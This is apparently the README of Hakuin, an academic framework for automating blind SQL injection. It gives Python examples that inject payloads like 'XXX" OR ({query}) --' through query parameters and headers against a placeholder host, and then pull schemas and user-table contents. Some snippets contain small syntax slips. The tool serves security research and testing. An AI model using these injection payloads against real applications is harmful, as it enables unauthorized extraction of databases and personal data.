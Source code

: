 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for textual DB content.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Extractor, Requester

class StatusRequester(Requester):
    ...

ext = Extractor(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Extracting MySQL DBs
```python
from hakuin.dbms import MySQL
...
ext = Extractor(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start extracting DB schemas.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = ext.extract_schema(strategy='model')
```

```

##### Example 2 - Extracting only Table/Column Names
```python
tables = ext.extract_table_names(strategy='model')
columns = ext.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = ext.extract_column_text(table='users', column='address', strategy='dynamic'):
```

##### Example 2 - Extracting Integer Columns
```python
res = ext.extract_column_int(table='users', column='id'):
```

##### Example 3 - Extracting Float Columns
```python
res = ext.extract_column_float(table='products', column='price'):
```

##### Example 4 - Extracting Blob (Binary Data) Columns
```python
res = ext.extract_column_blob(table='users', column='id'):
```

More examples can be found in the `tests` directory.


### Wrapper - "hk.py"
Hakuin comes with a simple wrapper tool `hk.py` that allows you to use Hakuin's basic functionality directly from the command line. To find out more, run:
```
python3 hk.py -h
```


## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
